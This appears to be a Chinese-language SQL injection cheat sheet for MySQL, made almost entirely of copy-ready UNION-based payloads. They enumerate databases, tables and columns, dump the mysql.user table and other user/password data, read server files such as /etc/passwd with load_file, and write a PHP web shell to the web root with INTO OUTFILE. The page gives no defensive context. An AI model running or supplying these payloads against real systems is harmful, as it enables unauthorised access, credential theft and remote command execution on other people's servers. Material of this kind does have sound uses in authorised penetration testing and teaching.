####  查当前数据库、当前用户、数据库文件在服务器中的位置
```sql
1 UNION ALL SELECT database(),user(),@@datadir -- -
```
####  查mysql库user表信息
```sql
1 UNION ALL SELECT User,Password,3 FROM mysql.user -- -
```
####  查所有库名
```sql
1 UNION ALL SELECT schema_name FROM information_schema.schemata -- -
```
`CONCAT()` 函数用于连接多个字符串值，突破字段限制
```sql
" UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata -- -
```
####  查test库的所有表名
```sql
1 UNION ALL SELECT table_name FROM information_schema.TABLES WHERE table_schema = 'test' -- -
```
`CONCAT()` 函数用于连接多个字符串值，突破字段限制
```sql
1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='test'-- -
```
####  查test表的所有字段名
```sql
1 UNION ALL SELECT column_name FROM information_schema.columns WHERE table_schema = 'test' AND table_name = 'your_table_name' -- -
```
`CONCAT()` 函数用于连接多个字符串值，突破字段限制
```sql
1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='your_table_name'-- -
```
####  查test表的具体数据
```sql
1 UNION ALL SELECT user,password FROM db_name.table_name -- -
1 UNION ALL SELECT NULL,concat(0x28,column1,0x3a,column2,0x29) FROM table1-- -
```
####  读取文件
```sql
1 UNION SELECT 1,2,3,4, load_file('/etc/passwd') ,6,7,8,9 -- -
1 UNION SELECT 1,2,3,4, load_file('/var/www/login.php') ,6,7,8,9 -- -
```

####  创建一个文件并检查是否真的存在
```sql
1 UNION SELECT 1,2,3,4,'this is a test message' ,6,7,8,9 into outfile '/var/www/test' -- -
1 UNION SELECT 1,2,3,4, load_file('/var/www/test') ,6,7,8,9 -- -
```

####  创建一个文件以获取shell
```sql
1 UNION SELECT null,null,null,null,'<?php system($_GET['cmd']) ?>' ,6,7,8,9 into outfile '/var/www/shell.php' -- -
1 UNION SELECT null,null,null,null, load_file('/var/www/shell.php') ,6,7,8,9 -- -
```
